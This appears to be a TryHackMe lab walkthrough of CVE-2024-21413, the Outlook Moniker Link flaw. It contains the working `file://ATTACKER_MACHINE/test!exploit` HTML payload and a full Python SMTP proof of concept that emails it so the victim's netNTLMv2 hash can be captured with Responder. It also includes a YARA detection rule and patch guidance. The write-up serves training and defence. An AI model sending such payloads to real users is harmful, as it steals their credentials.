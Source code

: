 ```yaml
---
title: "Monikerlink - TryHackMe"
author: bakeery
description: "Walkthrough of Monikerlink from TryHackMe"
date: 2024-03-07 00:00:00 +0530
categories: [writeups, tryhackme]
tags: [web, tool]
---
```


**[Monikerlink from TryHackMe](https://tryhackme.com/room/monikerlink)**

## Introduction
On February 13th, 2024, Microsoft announced a Microsoft Outlook RCE & credential leak vulnerability with the assigned CVE of CVE-2024-21413. Haifei Li of Check Point Research is credited with discovering the vulnerability.

The vulnerability bypasses Outlook's security mechanisms when handing a specific type of hyperlink known as a Moniker Link. An attacker can abuse this by sending an email that contains a malicious Moniker Link to a victim, resulting in Outlook sending the user's NTLM credentials to the attacker once the hyperlink is clicked.

Details relating to the scoring of the vulnerability have been provided in the table below:

| CVSS     Description 
|--------|---------|
|  Publish date | February 13th, 2024  | 
| MS article | **[Article](https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2024-21413)**| 
| Impact | Remote Code Execution & Credential Leak |
| Severity | Critical |
| Attack Complexity | Low |
| Scoring | 9.8  |

The vulnerability is known to affect the following Office releases:

| Release      | Version |
| --------     | -------- |
| Microsoft Office LTSC 2021 | affected from 19.0.0 |
| Microsoft 365 Apps for Enterprise | affected from 16.0.1 |
| Microsoft Office 2019 | affected from 16.0.1 |
| Microsoft Office 2016 | affected from 16.0.0 before 16.0.5435.1001 |

Outlook can render emails as HTML. You may notice this being used by your favourite newsletters. Additionally, Outlook can parse hyperlinks such as HTTP and HTTPS. However, it can also open URLs specifying applications known as Moniker Links. Security warning is prompted when an external linkis triggered

![monikerlink results](/assets/img/tryhackme/moniker/triggered.png)

This pop-up is a result of Outlook's "Protected View". Protected View opens emails containing attachments, hyperlinks and similar content in read-only mode, blocking things such as macros (especially from outside an organisation). 

By using the `file://` Moniker Link in our hyperlink, we can instruct Outlook to attempt to access a file, such as a file on a network share (`<a href="file://ATTACKER_IP/test>Click me</a>`). The SMB protocol is used, which involves using local credentials for authentication. However, Outlook's "Protected View" catches and blocks this attempt.

```html
<p><a href="file://ATTACKER_MACHINE/test">Click me</a></p>
```

The vulnerability here exists by modifying our hyperlink to include the `!` special character and some text in our Moniker Link which results in bypassing Outlook’s Protected View. For example: `<a href="file://ATTACKER_IP/test!exploit>Click me</a>`.

```html
<p><a href="file://ATTACKER_MACHINE/test!exploit">Click me</a></p>
```

We, as attackers, can provide a Moniker Link of this nature for the attack. Note the share does not need to exist on the remote device, as an authentication attempt will be attempted regardless, leading to the victim's Windows netNTLMv2 hash being sent to the attacker.

Remote Code Execution (RCE) is possible because Moniker Links uses the Component Object Model (COM) on Windows

## Exploitation

Attacker will email our victim a Moniker Link  the target. The objective, as the attacker, is to craft an email to the victim with a Moniker Link that bypasses Outlook's "Protected View", where the victim’s client will attempt to load a file from our attacking machine, resulting in the victim’s netNTLMv2 hash being captured.

PoC :

```python
import smtplib
from email.mime.text import MIMEText
from email.mime.multipart import MIMEMultipart
from email.utils import formataddr

sender_email = 'attacker@monikerlink.thm' # Replace with your sender email address
receiver_email = 'victim@monikerlink.thm' # Replace with the recipient email address
password = input("Enter your attacker email password: ")
html_content = """\
<!DOCTYPE html>
<html lang="en">
    <p><a href="file://ATTACKER_MACHINE/test!exploit">Click me</a></p>

    </body>
</html>"""

message = MIMEMultipart()
message['Subject'] = "CVE-2024-21413"
message["From"] = formataddr(('CMNatic', sender_email))
message["To"] = receiver_email

# Convert the HTML string into bytes and attach it to the message object
msgHtml = MIMEText(html_content,'html')
message.attach(msgHtml)

server = smtplib.SMTP('MAILSERVER', 25)
server.ehlo()
try:
    server.login(sender_email, password)
except Exception as err:
    print(err)
    exit(-1)

try:
    server.sendmail(sender_email, [receiver_email], message.as_string())
    print("\n Email delivered")
except Exception as error:
    print(error)
finally:
    server.quit()
```

The PoC:
- Takes an attacker & victim email. Normally, you would need to use your own SMTP server 
- Requires the password to authenticate. For this room, the password for `attacker@monikerlink.thm` is `attacker`
- Contains the email content (html_content), which contains our Moniker Link as a HTML hyperlink
- Then, fill in the "subject", "from" and "to" fields in the email
- Finally, it sends the email to the mail server

Let’s use Responder to create an SMB listener on our attacking machine. For the THM AttackBox, the interface will be `-I ens5`. The interface name will differ if you are using your own device

![monikerlink results](/assets/img/tryhackme/moniker/responder.png)

Let's open the vulnerable machine,  the Outlook interface would look something like . Here  the victim's mailbox has already been set up in Outlook.

![monikerlink results](/assets/img/tryhackme/moniker/payrec.png)

Now, Lets run our POC

![monikerlink results](/assets/img/tryhackme/moniker/sendpa.png)

Click on the "Click me" hyperlink and return to our "Responder" terminal session on the AttackBox:

![monikerlink results](/assets/img/tryhackme/moniker/result.png)

## Detection

### YARA

A Yara rule `CVE-2024-21413` Yara rule created by `Florian Roth` to detect emails containing the `file:\\` element in the Moniker Link.

```
user@yourmachine:# cat cve-2024-21413.yar

rule EXPL_CVE_2024_21413_Microsoft_Outlook_RCE_Feb24 {

   meta:

      description = "Detects emails that contain signs of a method to exploit CVE-2024-21413 in Microsoft Outlook"

      author = "X__Junior, Florian Roth"

      reference = "https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability/"

      date = "2024-02-17"

      modified = "2024-02-19"

      score = 75

   strings:

$a1 = "Subject: "$a2 = "Received: "$xr1 = /file:\/\/\/\\\\[^"']{6,600}\.(docx|txt|pdf|xlsx|pptx|odt|etc|jpg|png|gif|bmp|tiff|svg|mp4|avi|mov|wmv|flv|mkv|mp3|wav|aac|flac|ogg|wma|exe|msi|bat|cmd|ps1|zip|rar|7z|targz|iso|dll|sys|ini|cfg|reg|html|css|java|py|c|cpp|db|sql|mdb|accdb|sqlite|eml|pst|ost|mbox|htm|php|asp|jsp|xml|ttf|otf|woff|woff2|rtf|chm|hta|js|lnk|vbe|vbs|wsf|xls|xlsm|xltm|xlt|doc|docm|dot|dotm)!/

   condition:

      filesize < 1000KB

      and all of ($a*)      and 1 of ($xr*)}
```
**[Monikerlink from TryHackMe](https://x.com/cyb3rops/status/1758792873254744344?s=20)**
## Wireshark

Additionally, the SMB request from the victim to the client can be seen in a packet capture with a truncated netNTLMv2 hash.

![monikerlink results](/assets/img/tryhackme/moniker/wireshark.png)

## Remediation

Microsoft has included patches to resolve this vulnerability in February’s “patch Tuesday” release. You can see a list of KB articles by Office build here. Updating Office through Windows Update or the Microsoft Update Catalog is strongly recommended.

Additionally, in the meantime, it is a timely reminder to practice general - safe - cyber security practices. For example, reminding users to:

- Do not click random links (especially from unsolicited emails)
- Preview links before clicking them
- Forward suspicious emails to the respective department responsible for cyber security

Since this vulnerability bypasses Outlook's Protected View, there is no way to reconfigure Outlook to prevent this attack. Additionally, preventing the SMB protocol entirely may do more harm than good, especially as it is essential for accessing network shares. However, you may be able to block this at the firewall level, depending on the organisation.